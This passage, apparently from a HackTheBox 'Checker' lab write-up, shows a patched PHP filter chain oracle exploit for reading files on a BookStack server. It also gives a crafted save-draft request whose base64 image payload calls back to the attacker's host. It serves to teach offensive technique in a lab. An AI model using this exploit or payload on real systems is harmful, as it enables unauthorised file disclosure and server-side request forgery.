 We can’t get the content. One way around this is to use file read from error-based oracle with php filter chains

https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle

[https://github.com/synacktiv/php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

First we clone the repo:

```bash
git clone https://github.com/synacktiv/php_filter_chains_oracle_exploit.git
```

Now we need to change filters_chain_oracle/core/requestor.py in the github repo, in the req_with_response:

```bash
from base64 import b64encode  #ADD THIS LINE

    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        #WE ADD OUR PAYLOAD HERE ON THE NEXT LINE ---------------:
        filter_chain = f"<img src='data:image/png;base64,{b64encode(filter_chain.encode()).decode()}'/>"  #WE WANT OUR OUTPUT TO BE ASCII
        merged_data = self.parse_parameter(filter_chain)
        # Make the request, the verb and data encoding is defined
```

Now let’s change the request so we don’t have to send JSON data, simplifying the process:

```bash
PUT /ajax/page/8/save-draft HTTP/1.1
Host: checker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://checker.htb/books/new/draft/8
Content-Type: application/x-www-form-urlencoded     #CHANGED THIS
X-Requested-With: XMLHttpRequest
baseURL: http://checker.htb/
X-CSRF-TOKEN: UMS9LQo5W7c2BjScWscdjNA5gr253ibVbd47ZmW7
Content-Length: 29
Origin: http://checker.htb
Connection: keep-alive
Cookie: teampass_session=2bnuqpnk5qtuunqker5u8m9q47; jstree_select=1; bookstack_session=eyJpdiI6InJMZERyVHV5WlZES0ExVWZRYWJScmc9PSIsInZhbHVlIjoiaTdkbm5qVEFiU3gzQTlGcm12Q3ZJYUd2WVowbm85dlhRMndGMElDUS9CWUNaaG9EdUlFaFJaN0Y4Zkh5Si8rMm9PdHFMNmRtYmFDeW54YnI2UkRzcUhCUTBiMzMrUlE2WC84VzlNKzYrcUE5WjA4b1JQYS8vUUxzQ0NiS2x6bnAiLCJtYWMiOiJkMThjMzcwMmRmZTY3ODdkMTQzYjJiMzBhY2IzNmJjMGU2NWZkMzI3YTkzMDBmMTZjYjBiYzY1YjYzNjhlMWFlIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6InV2RFdWWDVMYUpiSTJnNWVob241dkE9PSIsInZhbHVlIjoibWtOZVlXR1R3OGdHdXA1d1BtRXFKQk5PaDY5S05lVGN5dDdKckFuTDY1RVRHRUpTNU1Pc29mbmZJVFVSU213SXNMbFhyYVpjQmJCeTJZc0RxQ1h4RldJSXlWYWswVFBGVjFseU1mVmNXTHh1aEVjc1l4cXJmQlp6eEJ0d0k2emwiLCJtYWMiOiJlYzU0ODBiOTNmMjMwODBkMjI4MTlmNzVkMmMzMTg5MDQ4OWNjODY4ZTViZGJlZWZkZGUyMjhkNzQxNjljYTAzIiwidGFnIjoiIn0%3D; remember_standard_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6IjAyc1FMOVJvYWRMeWI2U1pNaEQrMFE9PSIsInZhbHVlIjoidjNlcGtYYnRWRzliUFFMZmYrN1hzazVnSlpKc2hwbTYxQldQbnlUK0wxRlE5T3BaRWYvcUV0NjM2RUxScWlvaEl1QXNucGNZSTZpdFUvS1BUVlYyeGZsQWZ2WUNkM1JHUE9KR216UEsrdnVUWU5seGIvUUtKdHF3b3BDVXcvV2RpMzI3RmtzYi92akxIYVd3NXFCd3VjTURheHFoU2tsNkt6czYxbkQ4Vyt2RkU1WFRycG1aVlF6cWRJL0xsY1FZa09UT3ZJK2pHdk1TajlpUmVoRjh2Q1BHQk1PMm5hcHMzNXd6OEtFN1podz0iLCJtYWMiOiI1ZTJlNDc0OWIyYTA2NTY3YmM2ZWRmNmM3ODM4NTkyZDJmNTI2MmJiMzc5MGU1MTE2M2I5NDJiMmUwMTY2MzQ2IiwidGFnIjoiIn0%3D
Priority: u=0

html=<img src='data:image/png;base64,aHR0cDovLzEwLjEwLjE2LjI6ODAwMS9URVNUSU5H'/>  #CHANGED THIS
```
